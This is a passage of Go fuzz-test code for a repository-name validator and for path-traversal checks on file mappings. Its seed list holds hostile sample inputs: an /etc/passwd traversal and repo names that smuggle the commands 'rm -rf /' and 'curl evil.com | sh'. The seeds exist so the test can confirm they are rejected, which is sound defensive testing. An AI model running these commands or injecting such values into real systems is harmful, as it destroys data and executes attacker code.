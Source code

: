 ```go
            // Check all file mappings
            for _, target := range cfg.Targets {
                for _, file := range target.Files {
                    if fuzz.ContainsPathTraversal(file.From) || fuzz.ContainsPathTraversal(file.To) {
                        t.Errorf("Path traversal in file mapping: %s -> %s", file.From, file.To)
                    }
                }
            }
        }
    })
}

func FuzzRepoNameValidation(f *testing.F) {
    seeds := []string{
        "org/repo",
        "org/repo.git",
        "../../../etc/passwd",
        "org/repo; rm -rf /",
        "org/repo && curl evil.com | sh",
        "🎉/🎉",
        "org/repo\x00",
        "ORG/REPO",
        "org-name/repo-name",
        "org.name/repo.name",
        "a/b/c",
        "",
        "org/",
        "/repo",
        "org//repo",
    }
    
    for _, seed := range seeds {
        f.Add(seed)
    }
    
    f.Fuzz(func(t *testing.T, repoName string) {
        defer func() {
            if r := recover(); r != nil {
                t.Fatalf("Panic in repo validation: %v with input: %s", r, repoName)
            }
        }()
        
        isValid := isValidRepoName(repoName)
        
        if isValid {
            // Additional security checks for valid names
            if fuzz.ContainsShellMetachars(repoName) {
                t.Errorf("Shell metacharacters in valid repo name: %s", repoName)
            }
            
            if fuzz.ContainsPathTraversal(repoName) {
                t.Errorf("Path traversal in valid repo name: %s", repoName)
            }
            
            // Should match GitHub format
            parts := strings.Split(repoName, "/")
            if len(parts) != 2 || parts[0] == "" || parts[1] == "" {
                t.Errorf("Invalid GitHub format marked as valid: %s", repoName)
            }
        }
    })
}
```